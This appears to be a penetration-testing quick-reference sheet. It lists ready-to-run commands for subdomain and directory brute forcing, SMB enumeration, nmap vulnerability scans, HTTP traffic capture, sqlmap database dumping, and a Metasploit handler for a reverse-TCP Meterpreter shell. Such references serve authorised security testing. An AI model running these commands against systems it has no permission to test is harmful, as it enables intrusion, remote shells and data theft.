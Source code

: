 ### DNS Mode (subdomain discovery)
```bash
gobuster dns -d example.com -w subdomains.txt -t 50 -o gob-dns.out
```

---

## ⚡ Quick Command Reference

### Enumerate SMB shares
```bash
enum4linux -a 10.0.0.5
# or
smbclient -L //10.0.0.5 -N
```

### Find subdomains
```bash
subfinder -d example.com -silent
```

### Port & service discovery (fast)
```bash
sudo nmap -sS -sV -T4 --top-ports 1000 -oA nmap-fast 10.0.0.0/24
```

### Full nmap deep scan
```bash
sudo nmap -sS -sV -O -p1-65535 --script 'vuln or auth' -T4 -oA nmap-deep 10.0.0.5
```

### Capture HTTP traffic (tshark)
```bash
tshark -i eth0 -f "tcp port 80" -Y "http.request" -T fields -e ip.src -e http.request.method -e http.host -e http.request.uri
```

### Start Metasploit handler
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.0.100
set LPORT 4444
exploit -j
```

### SQLi quick test (sqlmap)
```bash
sqlmap -u "http://example.com/item?id=1" --batch --dbs
```

### Directory brute force (gobuster)
```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```
